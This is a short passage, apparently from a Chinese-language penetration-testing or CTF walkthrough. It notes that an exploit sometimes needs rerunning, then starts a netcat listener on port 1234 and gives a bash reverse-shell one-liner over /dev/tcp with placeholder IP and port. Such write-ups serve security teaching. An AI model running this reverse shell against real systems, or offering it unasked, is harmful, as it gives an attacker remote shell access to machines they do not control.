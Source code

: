 运行上面的命令后，我们将得到

![](img/fd6e82e5506eac9d5da7c63aa973f317.png)

伙计们，最初我的漏洞利用失败了，但再次运行后，它的工作，有时你需要运行漏洞利用两三次，如果它在第一次不工作

现在让我们在我在这里选择的任何想要的端口 1234 上运行我们的 netcat 监听器

`nc -lvp 1234`

让我们运行`/bin/bash -i > /dev/tcp/[your-ip]/[nc-listening-port] 0>&1 2>&1`
